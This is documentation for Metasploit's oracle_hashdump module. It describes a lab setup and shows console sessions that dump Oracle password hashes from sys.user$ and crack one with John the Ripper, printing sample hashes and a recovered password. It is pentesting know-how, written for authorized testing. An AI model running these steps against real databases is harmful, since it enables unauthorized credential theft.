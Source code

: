 ## Preparation: 6 steps

  1. Oracle DB XE (Express Edition) can be downloaded for free [here](https://www.oracle.com/technetwork/database/database-technologies/express-edition/downloads/index.html).
  2. Install Oracle Database and create a database. Versions 8i through 12c are supported.
  3. On your Oracle DB machine, make sure you can ping the DB server using the `tnsping [SID]` command. If `tnsping` is not in your path upon installation, you will have to locate it manually.
     * On a Windows machine, for Oracle 11g, `tnsping.exe` is located at: `oracle_install\app\oracle\product\<version, ie 11.2.0)\server\bin\tnsping.exe`.
     * On a Windows machine, for Oracle 12c and 18c, it is located at `%ORACLE_HOME%\bin\tnsping.exe`.

     After this command is run, if all is well, the output will look something like this (note the OK echoed at the end):

    ```
    C:> tnsping staticdb
    ...

    Used TNSNAMES adapter to resolve the alias
    Attempting to contact (DESCRIPTION = (ADDRESS = (PROTOCOL = TCP)(HOST = localhost)(PORT = 1521)) (CONNECT_DATA = (SERVER = DEDICATED) (SERVICE_NAME = staticdb)))
    OK (0 msec)
    ```

    If `tnsping` fails, make sure the listener is setup correctly.
    See [this Oracle doc](https://docs.oracle.com/cd/E11882_01/network.112/e41945/listenercfg.htm#NETAG294) for more information about its configuration.

  4. Make sure to create a user on the DB that has a known password, and sufficient privileges to select any table. This is necessary for getting the hashes.
  5. Test that the module's hash query works locally. Once your user is created with sufficient privileges, connect to the DB as the user, and proceed to run the following query
    * 12c: `SELECT name, spare4 FROM sys.user$ where password is not null and name <> \'ANONYMOUS\'`
    * pre-12c: `SELECT name, password FROM sys.user$ where password is not null and name<> \'ANONYMOUS\'`
  6. Set up your MSF environment to support Oracle. You need gem ruby-oci8, as well as Oracle Instant Client.
     [View the setup tutorial here](https://docs.metasploit.com/docs/using-metasploit/other/oracle-support/how-to-get-oracle-support-working-with-kali-linux.html)
  7. Make sure you have a database connected to MSF (postgresql). This can be done through `msfdb` tool or through `db_connect` command in `msfconsole`.

## Verification Steps

  1. Start `msfconsole`
  2. Do: ```use auxiliary/scanner/oracle/oracle_hashdump.rb```
  3. Do: ```run```
  4. If Oracle DB version is supported, the query will be attempted to get the hashes. Hash table is built and then saved as credentials.
  5. You may view saved credentials with `creds` command. These are used for cracking by module `jtr_oracle_fast`.

## Options

  **DBPASS**
  The password to authenticate with. Change this from TIGER to the password of the privileged user created in step 4 of Preparation.

  **DBUSER**
  The username to authenticate with. Change this from SCOTT to the user you created who is granted privileges to select from the sys.user$ table

  **RPORT**
  The TNS port of the Oracle DB server. By default, Oracle uses port 1521. Double-check the port of your Oracle DB.

  **SID**
  The Service ID (of the database) to authenticate with. Change this to your SID (if you changed the SID from default upon installation).
  Default is `ORCL` (default Oracle install value) or `XE` for free edition.

## Scenarios

### Running Oracle 12c on a local Windows 10 machine, and msf on Ubuntu for Windows (same machine)

```
msf auxiliary(scanner/oracle/oracle_hashdump) > show options
Module options (auxiliary/scanner/oracle/oracle_hashdump):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   DBPASS   hunter2          yes       The password to authenticate with.
   DBUSER   scott            yes       The username to authenticate with.
   RHOST    127.0.0.1        yes       The Oracle host.
   RHOSTS   127.0.0.1        yes       The target address range or CIDR identifier
   RPORT    1522             yes       The TNS port.
   SID      staticdb         yes       The sid to authenticate with.
   THREADS  1                yes       The number of concurrent threads

msf auxiliary(scanner/oracle/oracle_hashdump) > run

[*] Server is running 12c
[*] Hash table :
 Oracle Server Hashes
====================

 Username               Hash
 --------               ----
 ...
 SCOTT                  S:BF6D4E3791075A348BA76EF533E38F7211513CCE2A3513EE3E3D4A5A4DE0;H:3814C74599475EB73043A1211742EE59;T:0911BAC55EEF63F0C1769E816355BE29492C9D01980DC36C95A86C9CE47F93790631DE3D9A60C90451CFF152E25D9E94F612A1493EC82AF8E3C4D0432B06BA4C2C693B932332BC14D2D66CEF098A4699
 ...

[+] Hash Table has been saved
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/oracle/oracle_hashdump) > creds
Credentials
===========

host       origin     service            public  private                                                                                                                                                                                                                                                               realm  private_type        JtR Format
----       ------     -------            ------  -------
...                                                                                                                                                                                                                                                         -----  ------------        ----------
127.0.0.1  127.0.0.1  1522/tcp (oracle)  SCOTT   S:BF6D4E3791075A348BA76EF533E38F7211513CCE2A3513EE3E3D4A5A4DE0;H:3814C74599475EB73043A1211742EE59;T:0911BAC55EEF63F0C1769E816355BE29492C9D01980DC36C95A86C9CE47F93790631DE3D9A60C90451CFF152E25D9E94F612A1493EC82AF8E3C4D0432B06BA4C2C693B932332BC14D2D66CEF098A4699         Nonreplayable hash  oracle12c
```

These hashes are then saved as credentials so that `jtr_oracle_fast` can crack them (using [John The Ripper "bleeding_jumbo"](https://github.com/magnumripper/JohnTheRipper)).

```
msf auxiliary(scanner/oracle/oracle_hashdump) > use auxiliary/analyze/jtr_oracle_fast
msf auxiliary(analyze/jtr_oracle_fast) > run
...
[*] Cracking oracle12c hashes in normal wordlist mode...
Using default input encoding: UTF-8
[*] Cracking oracle12c hashes in single mode...
Using default input encoding: UTF-8
[*] Cracked passwords this run:
[+] SCOTT:hunter2
...
```
### Oracle 18c (18.4 XE) on Windows 2012

```
resource (oracle.rb)> use auxiliary/scanner/oracle/oracle_hashdump
resource (oracle.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (oracle.rb)> set dbuser system
dbuser => system
resource (oracle.rb)> set dbpass oracle
dbpass => oracle
resource (oracle.rb)> set sid XE
sid => XE
resource (oracle.rb)> run
[-] Version 18c is not currently supported
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Oracle 11g (11.2 XE) on Windows 2012

```
resource (oracle.rb)> use auxiliary/scanner/oracle/oracle_hashdump
resource (oracle.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (oracle.rb)> set dbuser system
dbuser => system
resource (oracle.rb)> set dbpass oracle
dbpass => oracle
resource (oracle.rb)> set sid XE
sid => XE
msf auxiliary(scanner/oracle/oracle_hashdump) > set verbose true
verbose => true
msf auxiliary(scanner/oracle/oracle_hashdump) > run

[*] Server is running version 11g
[*] Hash table :
 Oracle Server Hashes
====================

 Username          Hash
 --------          ----
 APEX_040000       S:03D9B47D20C9A9EC3023177D80C0EE2D1DCEDA619215C2405177CEFFEE76
 APEX_PUBLIC_USER  S:E8D8CCD600CBCEA08ACB158A502C5DA711B00146404621BB2F83E8997246
 APPQOSSYS         S:4237CCB702887B049107EE6D13C312123F40E3F51208B2B70D6DA92E621D
 CTXSYS            S:3548FDA49F84F2F7ECE4635BA0FD714EC2446723074ED6167F1CD9B6EDFB
 DBSNMP            S:59354E99120C523F77232A8CCFDE5E780591FCE14109EEE2C86F4A9B4E8F
 DIP               S:1E4C37D0E8DC2E556D3C02A961ACEF1500B315D076BE13E578D1A28FC757
 FLOWS_FILES       S:A3657555975A9F7527C4B97637734D74465C592B9D231CA3DAB100ED5865
 HR                S:F437C1647EBCEB1D1FB4BB3D866953B4BF612B343944B899E061B361F31B
 MDSYS             S:F337C5D6300E3F8CDEDE0F2B2336415EAAE098A700A35E6731BF1370657E
 ORACLE_OCM        S:1575D1C89A1AACFE161ED788D2DC59CF6C57AE3B6CCC341D831AAF5BC447
 OUTLN             S:142AD444D8A63983FF69C77DBFD3E60947C14237AEC71031E24F5228D44C
 SYS               S:BFAF1ED5A8D39CC10D07DAF03A175C65198359874DAD92F081BE09B89162
 SYSTEM            S:D88BA08B353EC52E1EFD8433DF623773ACE3F81B7294BBC2E5C22CDD32F5
 XDB               S:88D6BE2B593143BD5AE5185C564826F9213E71361230D3360E36C3FF55D2
 XS$NULL           S:6C4F97FF654AE30BCD9BDBB3007EF952B5943F0A9ED491455E9FB185D8A1

[+] Hash Table has been saved
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
